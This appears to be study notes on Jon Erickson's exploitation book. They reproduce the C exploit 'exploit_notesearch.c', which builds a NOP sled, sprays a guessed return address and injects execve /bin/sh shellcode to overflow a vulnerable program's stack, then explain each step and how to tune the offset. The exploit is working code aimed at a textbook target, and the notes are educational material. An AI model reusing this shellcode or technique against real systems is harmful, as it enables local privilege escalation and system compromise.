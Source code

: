 # x86 (32-bit)

_**hacking: the art of exploitation (book by Jon Erickson)**_

{% code title="exploit_notesearch.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char *argv[]) {
 unsigned int i, *ptr, ret, offset=270;
 char *command, *buffer;
 
 command = (char *) malloc(200);
 
 bzero(command, 200); // Zero out the new memory.
 
 strcpy(command, "./notesearch \'"); // Start command buffer.
 buffer = command + strlen(command); // Set buffer at the end.
 
 if(argc > 1) // Set offset.
  offset = atoi(argv[1]);
  
 ret = (unsigned int) &i - offset; // Set return address.
 
 for(i=0; i < 160; i+=4) // Fill buffer with return address.
 *((unsigned int *)(buffer+i)) = ret;
 
 memset(buffer, 0x90, 60); // Build NOP sled.
 memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
 
 strcat(command, "\'");
 system(command); // Run exploit.
 free(command);
}
```
{% endcode %}

The exploit above displays a simple buffer overflow exploit for the x86 architecture.

> This exploit will only work with architecture that have a stack growing downwards (to lower memory addresses).

#### Explanation

1. Shellcode string
   * ...
2. Set return address (estimated)

```c
ret = (unsigned int) &i - offset; // Set return address.
```

Set the return address by subtracting a guessed offset value from the current stack location. This calculates a possible lower memory location that may land in the NOP sled when the `notesearch` program is executed. Keep in mind that a subtraction is used instead due to the stack growing downwards.

3. Fill buffer space with return address
   * This is performed in hopes of overwriting the `EIP` (instruction pointer) with the return address of our choice
   * to trick the CPU into executing malicious code

```c
 for(i=0; i < 160; i+=4) // Fill buffer with return address.
  *((unsigned int *)(buffer+i)) = ret;
```

4. Build NOP sled and append shellcode

```c
memset(buffer, 0x90, 60); // Build NOP sled.
memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
```

The value `0x90` represents a NOP instruction in x86 assembly. A NOP instruction is simply a command that does nothing. In this case, when the EIP points to an address within the NOP sled region, the CPU will simply run through each NOP instruction, until it eventually reaches and executes the shellcode.

> Note: the CPU automatically updates the EIP to point to the next instruction in memory (auto increment)

**1st line**: appends 60 bytes of the NOP instruction

**2nd line**: appends shellcode right after the NOP sled

#### Methods to fine-tune the exploit

1. Increase the NOP sled size
   * This increases the chances of the return address value (calculated with the offset) to land within the NOP sled region
2. Vary the offset value
   * Experiment with different offset values to determine the value that provides the return address which falls within range the range of the NOP sled region

